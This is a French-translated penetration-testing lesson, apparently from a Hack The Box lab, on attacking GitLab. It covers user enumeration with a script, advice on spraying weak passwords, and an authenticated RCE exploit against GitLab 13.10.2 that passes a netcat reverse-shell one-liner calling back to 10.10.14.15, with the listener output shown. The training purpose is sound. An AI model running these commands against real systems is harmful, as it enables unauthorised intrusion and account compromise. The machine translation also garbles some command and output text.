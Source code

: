 Attaquer GitLab
================

* * * * *

Comme nous l'avons vu dans la section précédente, même un accès non authentifié à une instance GitLab peut entraîner la compromission de données sensibles. Si nous pouvions obtenir un accès en tant qu'utilisateur valide de l'entreprise ou administrateur, nous pourrions potentiellement découvrir suffisamment de données pour compromettre complètement l'organisation d'une manière ou d'une autre. GitLab a [553 CVE](https://www.cvedetails.com/vulnerability-list/vendor_id-13074/Gitlab.html) signalées en septembre 2021. Bien que toutes ne soient pas exploitables, il y en a eu plusieurs graves au cours les années qui pourraient conduire à l'exécution de code à distance.

* * * * *

Énumération du nom d'utilisateur
--------------------

Bien qu'il ne soit pas considéré comme une vulnérabilité par GitLab, comme indiqué sur sa page [Hackerone](https://hackerone.com/gitlab?type=team) ("Énumération des utilisateurs et des projets/divulgation du chemin à moins qu'un impact supplémentaire puisse être démontré"), il est toujours quelque chose qui vaut la peine d'être vérifié car cela pourrait entraîner un accès si les utilisateurs sélectionnent des mots de passe faibles. Nous pouvons le faire manuellement, bien sûr, mais les scripts rendent notre travail beaucoup plus rapide. Nous pouvons en écrire un nous-mêmes en Bash ou Python ou utiliser [celui-ci](https://www.exploit-db.com/exploits/49821) pour énumérer une liste d'utilisateurs valides. La version Python3 de ce même outil est disponible [ici](https://github.com/dpgg101/GitLabUserEnum). Comme pour tout type d'attaque par pulvérisation de mot de passe, nous devons être attentifs au verrouillage de compte et à d'autres types d'interruptions. Les valeurs par défaut de GitLab sont définies sur 10 tentatives infructueuses entraînant un déverrouillage automatique après 10 minutes. Cela peut être vu [ici](https://gitlab.com/gitlab-org/gitlab-ce/blob/master/config/initializers/8_devise.rb). Cela peut être modifié, mais GitLab devrait être compilé par source. À l'heure actuelle, il n'existe aucun moyen de modifier ce paramètre à partir de l'interface utilisateur d'administration, mais un administrateur peut modifier la longueur minimale du mot de passe, ce qui pourrait aider les utilisateurs à choisir des mots de passe courts et courants, mais n'atténuera pas entièrement le risque d'attaques par mot de passe.

```
# Nombre de tentatives d'authentification avant de verrouiller un compte si lock_strategy
# correspond à des tentatives infructueuses.
config.maximum_attempts = 10

# Intervalle de temps pour déverrouiller le compte si :time est activé en tant que unlock_strategy.
config.unlock_in = 10.minutes

```

En téléchargeant le script et en l'exécutant sur l'instance GitLab cible, nous constatons qu'il existe deux noms d'utilisateur valides, `root` (le compte administrateur intégré) et `bob`. Si nous réussissions à supprimer une longue liste d'utilisateurs, nous pourrions tenter une attaque par pulvérisation contrôlée de mots de passe avec des mots de passe faibles et courants tels que `Welcome1` ou `Password123`, etc., ou essayer de réutiliser les informations d'identification recueillies auprès d'autres sources telles que vidages de mots de passe à partir de violations de données publiques.

```
dsgsec@htb[/htb]$ ./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ ~~~~
   Script d'énumération des utilisateurs GitLab
    Version 1.0

Description : Il imprime les noms d'utilisateur qui existent dans l'instance GitLab CE de votre victime

Avis de non-responsabilité : n'exécutez pas ce script sur GitLab.com ! Gardez également à l'esprit que ce PoC est destiné uniquement
à des fins éducatives et d'utilisation éthique. Exécutez-le sur des systèmes que vous ne possédez pas ou que vous n'avez pas
la bonne autorisation est totalement à vos risques et périls.

Auteur : @4DoniiS [https://github.com/4D0niiS]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ ~~~~

BOUCLE
200
[+] La racine du nom d'utilisateur existe !
BOUCLE
302
BOUCLE
302
BOUCLE
200
[+] Le pseudo bob existe !
BOUCLE
302

```

* * * * *

Exécution de code à distance authentifiée
-----------------------------------

Les vulnérabilités d'exécution de code à distance sont généralement considérées comme la "crème de la crème" car l'accès au serveur sous-jacent nous donnera probablement accès à toutes les données qui y résident (bien que nous devions peut-être d'abord élever les privilèges) et peut servir de point d'ancrage dans le réseau pour que nous lancions d'autres attaques contre d'autres systèmes et entraînions potentiellement une compromission complète du réseau. GitLab Community Edition 13.10.2 et les versions antérieures ont souffert d'une exécution de code à distance authentifiée [vulnérabilité](https://hackerone.com/reports/1154542) en raison d'un problème avec ExifTool gérant les métadonnées dans les fichiers image téléchargés. Ce problème a été résolu assez rapidement par GitLab, mais certaines entreprises utilisent encore probablement une version vulnérable. Nous pouvons utiliser cet [exploit](https://www.exploit-db.com/exploits/49951) pour atteindre le RCE.

Comme il s'agit d'une exécution de code à distance authentifiée, nous avons d'abord besoin d'un nom d'utilisateur et d'un mot de passe valides. Dans certains cas, cela ne fonctionnerait que si nous pouvions obtenir des informations d'identification valides via OSINT ou une attaque de devinette d'informations d'identification. Cependant, si nous rencontrons une version vulnérable de GitLab qui permet l'auto-enregistrement, nous pouvons rapidement ouvrir un compte et lancer l'attaque.

```
dsgsec@htb[/htb]$ python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/ f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '

[1] Authentification
Authentifié avec succès
[2] Création de la charge utile
[3] Création d'un extrait et téléchargement
[+] RCE déclenché !!

```

Et nous obtenons une coquille presque instantanément.

```
dsgsec@htb[/htb]$ nc -lnvp 8443

écoute sur [tout] 8443 ...
se connecter à [10.10.14.15] depuis (INCONNU) [10.129.201.88] 60054

git@app04:~/gitlab-workhorse$ identifiant

identifiant
uid=996(git) gid=997(git) groupes=997(git)

git@app04 :~/gitlab-workhorse$ ls

ls
VERSION
config.toml
flag_gitlab.txt
prises
```